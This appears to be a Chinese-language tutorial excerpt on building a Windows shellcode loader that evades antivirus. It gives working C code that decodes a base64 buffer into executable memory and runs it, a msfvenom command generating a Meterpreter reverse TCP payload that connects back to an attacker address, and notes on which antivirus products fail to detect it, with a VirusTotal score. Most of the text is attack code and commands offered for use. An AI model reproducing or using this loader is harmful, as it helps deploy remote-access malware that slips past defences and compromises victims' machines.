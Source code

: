 `shellcode.c`文件内容：

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code here";

// 原po代码报错，这里做了一些强制转换和类型修正
int main(int argc, const char* argv[]) {


    char str1[1000] = { 0 };
    Base64decode(str1, (char*)buf);
    LPVOID Memory;
    Memory = VirtualAlloc(NULL, sizeof(str1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, str1, sizeof(str1));
    ((void(*)())Memory)();
    return 0;
}
```

使用msf生成base64编码的shellcode：

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=192.168.174.128 lport=6666  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。vs2019编译，关闭杀软，msf可成功上线。

打开杀软，火绒可以查杀，**360不能查杀**（原po火绒静态查杀会报毒，但行为检测没有反应，360全通过）。

virustotal.com查杀率为21/68（原po为28/69）。


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate